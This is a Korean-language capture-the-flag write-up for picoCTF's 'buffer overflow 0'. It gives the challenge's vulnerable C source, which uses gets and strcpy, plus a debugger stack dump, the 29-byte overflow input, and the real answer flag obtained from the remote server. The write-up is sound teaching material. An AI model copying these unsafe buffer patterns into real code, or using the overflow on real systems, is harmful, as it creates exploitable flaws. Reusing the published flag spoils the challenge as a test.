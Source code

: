 # [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Let's start off simple, can you overflow the correct buffer?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buf_0/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
...
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
소스코드를 보면 `SIGSEGV`가 발생하면 FLAG를 출력합니다. 

<br />

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
gets는 `"\n"`를 만날때까지 입력을 받습니다. 이는 스택 버퍼오버플로우가 발생합니다. `vuln`은 `gets`로 입력받은 값을 복사하여 `buf2`에 저장합니다. 함수는 할 일을 다하면 `Return address(RET)`를 통해 원래 있던 곳으로 복귀합니다. 이때 `RET`이 가리키는 값이 유효하지 않을 경우, `SIGSEGV`가 발생하고 프로그램을 종료합니다.

<br />

```asm
pwndbg> b *vuln+38
Breakpoint 1 at 0x56556379
pwndbg> r
Starting program: /home/kali/pico/buf_0/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input: AAAABBBBCCCC
...
pwndbg> x/32x 0xffffd130
0xffffd130:     0x41414141      0x42424242      0x43434343      0x56558f00
0xffffd140:     0x565564a0      0x56558fac      0xffffd1d8      0x56556477
0xffffd150:     0xffffd164      0x000003e8      0x000003e8      0x5655641f
0xffffd160:     0x1f8bfbff      0x41414141      0x42424242      0x43434343
0xffffd170:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd180:     0x00000000      0xffffd3eb      0x00000002      0x00000000
0xffffd190:     0x00000000      0x00000000      0x00000000      0xffffdfdd
0xffffd1a0:     0xf7fc5540      0xf7fc5000      0x00000000      0x00000000
pwndbg> x/a 0x56556477
0x56556477 <main+245>:  0x8310c483
```
`"AAAABBBBCCCC"`를 입력하고, `strcpy` 호출 직후의 스택 상태를 보겠습니다. `buf2`에는 입력 값이 복사가 되어 있는 것을 알 수 있으며, `0x56556477`는 `RET` 입니다. 따라서 버퍼를 29바이트이상 채우면 `RET`이 유효하지 않은 주소를 가리키므로, `SIGSEGV`가 발생할 것입니다.

<br />

```bash
$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
pico{this_is_flag}
```

<br />

**Remote:**
```bash
$ nc saturn.picoctf.net 55280
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```


